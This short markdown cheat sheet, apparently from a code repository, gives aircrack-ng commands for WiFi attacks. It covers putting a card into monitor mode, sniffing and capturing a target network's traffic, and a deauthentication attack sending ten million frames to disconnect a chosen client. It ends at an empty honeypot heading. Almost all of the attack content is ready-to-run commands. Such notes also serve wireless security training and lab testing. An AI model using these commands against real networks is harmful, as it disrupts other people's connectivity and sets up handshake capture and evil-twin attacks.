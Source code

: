 ## Change mode from Managed to Mointor

Switch user to root and type `iwconfig`

Observe the mode which will be in `managed`

```
ifconfig wlan0 down
airmon-ng check kill
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```
Now type `iwconfig` and see the mode to have changed to `monitor`

## Packet Sniffing
```
airodump-ng wlan0 # Default 2.4 GHz Channel
airodump-ng --band abg wlan0 # List All Channels
```

```
airodump-ng --bssid <bssid> --channel <channel_num> --write <filename> wlan0
```

## Deauthentication Attack

Ensure the `airodump-ng` command is running in a parallel terminal for this to work effectively
```
aireplay-ng --deauth 10000000 -a <router-bssid> -c <station-bssid> wlan0
```

## Setting up honeypot

